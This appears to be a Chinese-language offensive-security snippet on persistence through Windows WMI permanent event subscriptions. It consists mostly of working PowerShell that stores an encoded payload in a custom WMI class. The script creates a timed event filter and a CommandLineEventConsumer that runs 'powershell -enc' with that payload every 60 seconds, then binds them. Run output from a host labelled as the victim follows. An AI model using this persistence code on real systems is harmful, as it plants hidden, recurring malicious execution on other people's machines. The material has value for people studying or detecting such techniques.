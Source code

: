 ```powershell

```

使用**WMI永久事件订阅**(permanent event subscriptions)机制来触发特定操作,完成本地持久化。

```powershell
​
#读取加密指令
$EncodedPayload=([WmiClass] 'Win32_Command').Properties['EnCommand'].Value
# or $exePath='C:\Windows\Temp\evil.exe'

# 构造 WMI永久事件订阅(permanent event subscriptions) 
$filterName='EvilFilter'​
$consumerName='EvilConsumer'

# 1. 创建一个 事件过滤器__EventFilter,用于设定触发条件,每隔60s执行一次
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
# or $Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 200 AND TargetInstance.SystemUpTime < 320"
# 事件筛选器在系统启动后的 200 和 320 秒之间被当作一个触发器。在事件被触发时事件消费者会使用 CommandLineEventConsumer 执行已指定好的可执行文件。
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop

# 2. 创建一个 事件消费者 CommandLineEventConsumer ,用于设定执行的操作
$Arg =@{Name=$consumerName;CommandLineTemplate="C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe  -NonInteractive  -enc $EncodedPayload"}
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments $Arg

# 3. 绑定filter和consumer

Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}

```

运行ps1

```csharp

# Client 
PS C:\Client\WMI> . .\1.ps1

Path          : \\.\root\cimv2:Victim_EncodeCommand_Class
RelativePath  : Victim_EncodeCommand_Class
Server        : .
NamespacePath : root\cimv2
ClassName     : Victim_EncodeCommand_Class
IsClass       : True
IsInstance    : False
IsSingleton   : False

Path          : \\OWA2013\ROOT\cimv2:Victim_EncodeCommand_Class
RelativePath  : Victim_EncodeCommand_Class
Server        : OWA2013
NamespacePath : ROOT\cimv2
ClassName     : Victim_EncodeCommand_Class
IsClass       : True
IsInstance    : False
IsSingleton   : False

__GENUS                 : 2
__CLASS                 : __FilterToConsumerBinding
```